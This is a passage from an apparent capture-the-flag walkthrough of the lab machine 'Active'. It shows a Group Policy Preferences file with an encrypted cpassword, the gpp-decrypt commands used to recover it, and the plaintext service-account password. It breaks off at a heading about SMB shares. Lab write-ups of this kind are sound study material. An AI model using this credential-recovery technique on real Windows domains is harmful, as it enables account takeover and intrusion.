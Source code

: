 ```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">

	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
	
		<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
		
	</User>
	
</Groups>
```

# Exploitation

## Password Decryption

- Time to crack that "encryption" with `gpp-decrypt` (which is really just asking nicely for the password):

```bash
sudo apt install gpp-decrypt
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![Pasted image 20250521164418.png](images/Pasted_image_20250521164418.png)

```yml
Decrypted User (SVC_TGS) Password: GPPstillStandingStrong2k18
```

- Seriously? "GPPstillStandingStrong2k18"? That's like naming your password "ThisIsDefinitelyNotMyPassword2k18". Security through obscurity at its finest!

## Exploring SMB Shares with User (SVC_TGS) Credentials

